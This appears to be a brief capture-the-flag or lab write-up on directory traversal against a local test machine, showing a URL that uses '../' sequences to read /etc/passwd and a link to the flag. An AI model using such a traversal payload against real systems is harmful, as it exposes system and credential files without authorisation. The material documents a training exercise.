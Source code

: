 # Directory Traversal

```
http://192.168.56.110/?page=member
http://192.168.56.110/?page=../../../../../../../etc/passwd
```

## FLAG
[-- 🌱 --][2]

[2]: ./flag.txt